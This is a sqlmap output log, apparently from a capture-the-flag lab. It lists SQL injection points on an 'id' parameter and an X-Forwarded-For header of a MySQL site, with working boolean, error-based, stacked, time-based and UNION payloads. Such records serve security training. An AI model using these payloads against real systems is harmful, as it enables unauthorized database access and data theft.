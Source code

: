 
```bash
:~/.sqlmap/output/TargetIP# cat log
sqlmap identified the following injection point(s) with a total of 49 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7190=7190

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=2 AND EXTRACTVALUE(3683,CONCAT(0x5c,0x71766a7171,(SELECT (ELT(3683=3683,1))),0x717a717071))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 6269 FROM (SELECT(SLEEP(5)))pcPu)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3279 UNION ALL SELECT NULL,NULL,CONCAT(0x71766a7171,0x797a5a4d55586466716748517977796a636f7359655a46646b5a4b714c56466a4857726272576f68,0x717a717071),NULL-- -
---
back-end DBMS: MySQL >= 5.1
available databases [2]:
[*] information_schema
[*] sqhell_5

sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 5385 FROM (SELECT(SLEEP(5)))XLir) AND 'uMCO'='uMCO
---
back-end DBMS: MySQL >= 5.0.12
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 5385 FROM (SELECT(SLEEP(5)))XLir) AND 'uMCO'='uMCO
---
back-end DBMS: MySQL >= 8.0.0
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 5385 FROM (SELECT(SLEEP(5)))XLir) AND 'uMCO'='uMCO
---
back-end DBMS: MySQL >= 8.0.0


```
